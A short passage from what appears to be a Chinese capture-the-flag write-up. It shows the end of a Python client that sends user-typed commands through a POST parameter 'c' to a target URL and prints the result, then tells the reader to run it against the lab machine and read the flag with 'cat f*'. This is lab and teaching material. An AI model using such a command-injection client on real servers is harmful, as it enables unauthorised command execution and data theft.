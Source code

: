 ```python
            break
        s2 = input("[+] your command：")
        #根据用户输入的功能和命令，调用 action 函数生成相应的参数。
        param=action(s1) + action(s2)
        #构造一个字典 data，包含 POST 请求的参数，其中 'c' 的值是经过 URL 解码的参数。
        data={
            'c':urllib.parse.unquote(param)
            }
        #发送 POST 请求到指定的 URL，带上构造好的参数。
        r=requests.post(url,data=data)
        print("\n[*] result:\n"+r.text)

main()



```

将其运行

![image-20231216123813707](image/image-20231216123813707.png)

写入靶机地址

![image-20231216123822137](image/image-20231216123822137.png)

cat f*

![image-20231216123840802](image/image-20231216123840802.png)

